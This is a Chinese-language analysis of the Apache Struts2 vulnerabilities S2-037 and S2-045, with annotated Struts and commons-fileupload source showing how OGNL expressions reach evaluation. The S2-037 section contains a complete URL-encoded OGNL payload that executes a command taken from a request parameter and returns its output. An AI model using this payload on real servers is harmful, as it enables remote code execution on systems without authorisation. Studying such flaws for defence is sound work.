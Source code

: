 ### S2-037
S2-037和S2-033也很类似，但是跳过了动态调用是否开启的判断，从(2)入手赋值method。但是xwork-core:2.3.28.1版本在OgnlUtil.isEvalExpression增加了isSequence的判断。然后payload采用了非Sequence形式的`(1)?(2):(3)`
```
(%23_memberAccess%3D%40ognl.OgnlContext%40DEFAULT_MEMBER_ACCESS)%3F(%23process%3D%40java.lang.Runtime%40getRuntime().exec(%23parameters.command%5B0%5D)%2C%23ros%3D(%40org.apache.struts2.ServletActionContext%40getResponse().getOutputStream())%2C%40org.apache.commons.io.IOUtils%40copy(%23process.getInputStream()%2C%23ros)%2C%23ros.flush())%3Ad.json?command=open -a Calculator.app
```

### S2-045
官方给出S2-045是基于Jakarta Multipart解析器，执行文件上传时可能造成RCE。在struts-core.jar中的default.properties文件中（如下）可以看到Struts对于Multipart类型默认的解析器是jakarta
```
# struts.multipart.parser=cos
# struts.multipart.parser=pell
# struts.multipart.parser=jakarta-stream
struts.multipart.parser=jakarta
```
这个漏洞最初的调用流程和其他漏洞不同。因为`Dispatcher.wrapRequest()`包装请求的时候有个判断`Context-Type`头部如果包含`multipart/form-data`，对Request的包装用的`MultiPartRequestWrapper`
```
if (content_type != null && content_type.contains("multipart/form-data")) { // 
    MultiPartRequest mpr = this.getMultiPartRequest();
    LocaleProvider provider = (LocaleProvider)this.getContainer().getInstance(LocaleProvider.class);
    request = new MultiPartRequestWrapper(mpr, request, this.getSaveDir(), provider, this.disableRequestAttributeValueStackLookup);
} else {
    request = new StrutsRequestWrapper(request, this.disableRequestAttributeValueStackLookup);
}
```
然后在触发请求时，对应的处理类就是`JakartaMultiPartRequest`。`JakartaMultiPartRequest.parse()`处理请求的代码如下
```
public void parse(HttpServletRequest request, String saveDir) throws IOException {
    try {
        this.processUpload(request, saveDir); // 如果不是以`multipart开头会走到catch`
    } catch (FileUploadException var6) {
        errorMessage = this.buildErrorMessage(var6, new Object[0]); // 对错误信息中的OGNL进行解析
    }
```
`processUpload()`后续是借助`commons-fileupload.jar`来处理文件上传。涉及到一个类`org.apache.commons.fileupload.FileUploadBase$FileItemIteratorImpl`，它在初始化时会判断Content-Type是否以`multipart`开头，如果不是就抛出异常。
```
String contentType = ctx.getContentType();
if (null != contentType && contentType.toLowerCase(Locale.ENGLISH).startsWith("multipart/")) {}
else {
    throw new FileUploadBase.InvalidContentTypeException(String.format("the request doesn't contain a %s or %s stream, content type header is %s", "multipart/form-data", "multipart/mixed", contentType));
}
```
请求处理完，`DefaultActionInvocation`对Action进行拦截时会分发到`FileUploadInterceptor`
```
public String intercept(ActionInvocation invocation) throws Exception {
    if (!(request instanceof MultiPartRequestWrapper)) {...}
    else{ // 如果request是MultiPartRequestWrapper类型的
        MultiPartRequestWrapper multiWrapper = (MultiPartRequestWrapper)request;
        if (multiWrapper.hasErrors()) { // 如果文件上传过程中存在错误
	    while(i$.hasNext()) {
	        LocalizedMessage error = (LocalizedMessage)i$.next();
	        if (validation != null) {
		    validation.addActionError(LocalizedTextUtil.findText(error.getClazz(), error.getTextKey(), ActionContext.getContext().getLocale(), error.getDefaultMessage(), error.getArgs())); // 错误信息 （漏洞修复时删除了此行）
```